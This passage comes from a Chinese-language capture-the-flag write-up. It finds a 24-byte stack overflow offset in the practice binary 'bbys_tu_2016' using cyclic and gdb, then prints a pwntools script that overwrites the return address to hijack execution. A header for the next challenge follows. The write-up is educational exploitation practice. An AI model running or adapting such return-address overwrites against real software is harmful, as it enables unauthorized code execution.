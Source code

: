   停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  ![image-20240108202957597](../assets/img/old_imgs/image-20240108202957597.png)

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

# mrctf2020_easyoverflow
